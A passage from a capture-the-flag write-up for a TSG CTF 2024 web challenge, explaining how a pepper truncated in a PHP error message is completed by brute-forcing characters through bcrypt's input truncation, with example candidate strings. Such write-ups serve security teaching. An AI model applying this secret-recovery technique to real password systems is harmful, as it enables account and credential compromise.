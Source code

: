 Oh! Looks like we leaked `$pepper1`!

Well... It **almost** leaked all of it.

For `$pepper1` and `$pepper2`, they are 16 characters long:

```php
<?php
$pepper1 = "____REDACTED____";
$pepper2 = "____REDACTED____";
assert(strlen($pepper1) === 16 && strlen($pepper2) === 16);
```

However, in our case, the leaked `$pepper1` only has **15** characters:

```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/I-Have-Been-Pwned)-[2024.12.16|12:23:46(HKT)]
└> php -a
[...]
php > echo strlen("PmVG7xe9ECBSgLU");
15
```

So, it seems like if the parameter's value length is larger than 16, PHP's error will only show the first 15 characters.

But don't worry, we can actually **leverage the Bcrypt truncation technique to brute force the last character of `$pepper1`** like this:

1. Generate a password hash without `$pepper2` via Bcrypt truncation
2. Brute force the password hash **locally**:
```
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PmVG7xe9ECBSgLUbguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PmVG7xe9ECBSgLUcguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PmVG7xe9ECBSgLUdguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
PmVG7xe9ECBSgLUeguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[...]
```

Well then, if we now know the correct `$pepper1`, we can also **brute force `$pepper2` character by character via Bcrypt truncation**. Assume the correct `$pepper1` is `PmVG7xe9ECBSgLUa`:

```
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAb
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAc
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAd
[...]
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAda
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdb
[...]
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdba
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdbb
PmVG7xe9ECBSgLUaguestAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdbc
[...]
```
